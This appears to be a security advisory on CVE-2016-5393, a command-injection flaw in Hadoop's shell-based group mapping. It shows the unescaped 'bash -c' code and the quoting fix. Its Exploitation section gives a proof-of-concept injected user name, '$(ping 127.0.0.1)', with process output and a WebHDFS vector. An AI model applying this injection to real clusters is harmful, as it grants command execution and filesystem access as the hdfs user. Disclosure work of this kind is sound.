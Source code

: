 CVE-2016-5393 - Authenticated command execution as the hdfs user
================================================================

Description
-----------
Hadoop 2.6.x < 2.6.5 and 2.7.x < 2.7.3 is vulnerable to an **authenticated command execution as the hdfs user on clusters having `org.apache.hadoop.security.ShellBasedUnixGroupsMapping` as the `hadoop.security.group.mapping` property** (defined in `core-site.xml`).  

This property is **not the default value**, which is [`org.apache.hadoop.security.JniBasedUnixGroupsMappingWithFallback`](https://hadoop.apache.org/docs/r2.6.0/hadoop-project-dist/hadoop-hdfs/HdfsPermissionsGuide.html#Group_Mapping), and which is **not vulnerable**.  

The vulnerability relies in the fact that the group lookup function of a username does not escape the provided **`user` parameter** and pass it to a **`"bash -c"` command**.   

The vulnerable code is located in the `hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java` file of [that revision](https://github.com/apache/hadoop/blob/9d4d30243b0fc9630da51a2c17b543ef671d035c/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java) in the `getGroupsForUserCommand` function:
```
public static String[] getGroupsForUserCommand(final String user) {
//'groups username' command return is inconsistent across different unixes
return WINDOWS ?
  new String[]
      {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""}
  : new String[] {"bash", "-c", "id -gn " + user + "; id -Gn " + user};
}
```  
This vulnerability has been fixed on August 2nd 2016 in the [following commit](https://github.com/apache/hadoop/commit/954465e7ba3af3e5b083b6251562e5e77529f906) by adding the `bashQuote` function:
```
static String bashQuote(String arg) {
  StringBuilder buffer = new StringBuilder(arg.length() + 2);
  buffer.append('\'');
  buffer.append(arg.replace("'", "'\\''"));
  buffer.append('\'');
  return buffer.toString();
}

public static String[] getGroupsForUserCommand(final String user) {
  //'groups username' command return is inconsistent across different unixes
  if (WINDOWS) {
    return new String[]
        {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""};
  } else {
    String quotedUser = bashQuote(user);
    return new String[] {"bash", "-c", "id -gn " + quotedUser +
                          "; id -Gn " + quotedUser};
  }
}
```
  
Exploitation
------------
* With the Hadoop client command `hdfs groups`:
  ```
  $ hdfs groups '$(ping 127.0.0.1)'
  
  $ ps aux|grep --color "ping 12"
  ...
  hdfs      6227  0.0  0.0  15484   764 ?        S    13:24   0:00 bash -c id -gn $(ping 127.0.0.1)&& id -Gn $(ping 127.0.0.1)
  hdfs      6228  0.0  0.0  14732   868 ?        S    13:24   0:00 ping 127.0.0.1
  ...
  ```
* Through the `user.name` parameter on WebHDFS, but in that case:
  * `Simple` authentication should be deployed in order to have `user.name` manipulable  
  * So this does not provide more read access to data, as `Simple` authentication does not protect from user spoofing, but it adds command execution capability on the NameNode  
  
  
Post-exploitation
-----------------
Being the `hdfs` user, an attacker could then **access the entire distributed filesystem** as well as gaining a **unprivileged shell access** to the NameNode.  
  
  
References
----------
* https://www.cvedetails.com/cve/CVE-2016-5393/
* http://seclists.org/oss-sec/2016/q4/537